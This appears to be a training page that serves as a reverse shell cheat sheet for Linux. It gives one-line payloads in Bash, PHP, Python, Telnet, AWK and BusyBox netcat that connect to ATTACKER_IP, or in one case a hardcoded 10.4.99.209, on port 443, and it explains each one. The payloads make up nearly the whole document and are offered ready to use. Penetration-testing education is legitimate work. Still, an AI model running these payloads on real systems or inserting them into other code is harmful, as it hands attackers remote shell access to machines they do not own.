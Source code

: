 # Shell Payloads

A Shell Payload can be a command or script that exposes the shell to an incoming connection in the case of a bind shell or a send connection in the case of a reverse shell.

Let's explore some of these payloads that can be used in the <span style="color: inherit;">Linux</span> <span style="color: inherit;">OS</span> to expose the shell through the most popular **reverse shell**.

## Bash

### Normal Bash Reverse Shell

```shell
target@machine~$ bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1 
```

This reverse shell initiates an interactive bash shell that redirects input and output through a <span style="color: inherit;">TCP</span> connection to the attacker's IP (**ATTACKER_IP**) on port `443`. The `>&` operator combines both standard output and standard error.

### Bash Read Line Reverse Shell

```shell
target@machine~$ exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done 
```

This reverse shell creates a new file descriptor (`5` in this case) and connects to a <span style="color: inherit;">TCP</span> socket. It will read and execute commands from the socket, sending the output back through the same socket.

### Bash With File Descriptor 196 Reverse Shell

```shell
target@machine~$ 0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196 
```

This reverse shell uses a file descriptor (`196` in this case) to establish a <span style="color: inherit;">TCP</span> connection. It allows the shell to read commands from the network and send output back through the same connection.

### Bash With File Descriptor 5 Reverse Shell

```shell
target@machine~$ bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5
```

Similar to the first example, this command opens a shell (`bash -i`), but it uses file descriptor `5` for input and output, enabling an interactive session over the <span style="color: inherit;">TCP</span> connection.

## <span style="color: inherit;">PHP</span>

### <span style="color: inherit;">PHP</span> Reverse Shell Using the exec Function

```shell
target@machine~$ php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");' 
```

This reverse shell creates a socket connection to the attacker's IP on port `443` and uses the `exec` function to execute a shell, redirecting standard input and output.

### <span style="color: inherit;">PHP</span> Reverse Shell Using the shell_exec Function

```shell
target@machine~$ php -r '$sock=fsockopen("ATTACKER_IP",443);shell_exec("sh <&3 >&3 2>&3");'
```

Similar to the previous command, but uses the `shell_exec` function.

### <span style="color: inherit;">PHP</span> Reverse Shell Using the system Function

```shell
target@machine~$ php -r '$sock=fsockopen("ATTACKER_IP",443);system("sh <&3 >&3 2>&3");' 
```

This reverse shell employs the `system` function, which executes the command and outputs the result to the browser.

### <span style="color: inherit;">PHP</span> Reverse Shell Using the passthru Function

```shell
target@machine~$ php -r '$sock=fsockopen("ATTACKER_IP",443);passthru("sh <&3 >&3 2>&3");'
```

The `passthru` function executes a command and sends raw output back to the browser. This is useful when working with binary data.

### <span style="color: inherit;">PHP</span> Reverse Shell Using the popen Function

```shell
target@machine~$ php -r '$sock=fsockopen("ATTACKER_IP",443);popen("sh <&3 >&3 2>&3", "r");' 
```

This reverse shell uses `popen` to open a process file pointer, allowing the shell to be executed.

## Python

Python Reverse Shell by Exporting Environment Variables

```shell
target@machine~$ export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")' 
```

This reverse shell sets the remote host and port as environment variables, creates a socket connection, and duplicates the socket file descriptor for standard input/output.

### Python Reverse Shell Using the subprocess Module

```shell
target@machine~$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")' 
```

This reverse shell uses the `subprocess` module to spawn a shell and set up a similar environment as the Python Reverse Shell by Exporting Environment Variables command.

### Short Python Reverse Shell

```shell
target@machine~$ python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'
```

This reverse shell creates a socket (`s`), connects to the attacker, and redirects standard input, output, and error to the socket using `os.dup2()`.

&nbsp;

## Others

### Telnet

```shell
target@machine~$ TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP443 0<$TF | sh 1>$TF
```

This reverse shell creates a named pipe using `mkfifo` and connects to the attacker via Telnet on IP `ATTACKER_IP` and port `443`.

### AWK

```shell
target@machine~$ awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```

This reverse shell uses AWK’s built-in <span style="color: inherit;">TCP</span> capabilities to connect to `ATTACKER_IP:443`. It reads commands from the attacker and executes them. Then it sends the results back over the same <span style="color: inherit;">TCP</span> connection.

### BusyBox

```shell
target@machine~$ busybox nc ATTACKER_IP 443 -e sh
```

This BusyBox reverse shell uses Netcat (`nc`) to connect to the attacker at `ATTACKER_IP:443`. Once connected, it executes `/bin/sh`, exposing the command line to the attacker.